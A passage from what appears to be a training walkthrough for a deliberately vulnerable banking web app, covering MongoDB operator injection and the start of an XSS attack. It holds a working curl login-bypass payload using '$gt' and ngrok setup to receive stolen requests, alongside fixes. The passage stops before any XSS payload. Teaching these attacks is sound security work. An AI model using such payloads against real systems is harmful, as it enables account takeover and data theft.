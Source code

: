 ### 7. MongoDB Injection
Once thing we could guess by the urls and the parameters send in the different requests is that we are using a MongoDB Database since they use a 24-hexadecimal digit ids, which are everywhere around the application.
Knowing that MongoDB is the database, we could search how to make a MongoDB Injection in the login, for example.
In this case, the server is not protected on that and we could login as any user without knowing their password.

It just takes again a bit of research of the login request and a simple curl with a MongoDB query in the password field like the following:
```
curl -H "Content-Type: application/json" -X POST -d '{"email": {"$gt": ""}, "password": {"$gt": ""}}' http://localhost:4000/login
```

In MongoDB the query $gt means Greather than, so that query would match the first user in the database with email and password grather than an empty string which are ALL users. Once we logged in as one user, we could start chaging that query injection to login as the other users.

#### Solution:
To solve this, we must never allow any kind of injection. Each injection has its nature and, for instance in SQL Injection, we should never do string concatenation with the parameters sent by the user.
In the case of MongoDB we should never allow the inputs sent by the user to end up in a query without previous validation. To fix this, we can force the parameters to be always a string and never an object

solution checkout:
```
https://github.com/eBorland/bank-hacking/pull/7
```

### 8. XSS
Cross-site scripting is one of the most famous attacks in webservers.
In this case, send sending money we could see that the message of the transaction allows html code.
When rendering that html code in the global position, there is no sanitization and any attacker could use it to perform an XSS attack.

To perform this attack, you can follow the steps below:
1) Download ngrok to be able to receive requests
2) Once you downloaded (and installed if necessary) ngrok, you can expose a server, for example in the port 4500 with the following command:
```
./ngrok http 4500
```

And you will receive the following output:
```
ngrok by @inconshreveable

Session Status                online
Version                       2.2.4
Region                        United States (us)
Web Interface                 http://127.0.0.1:4040
Forwarding                    http://8350aae8.ngrok.io -> localhost:4500
Forwarding                    https://8350aae8.ngrok.io -> localhost:4500

Connections                   ttl     opn     rt1     rt5     p50     p90
                              0       0       0.00    0.00    0.00    0.00
```
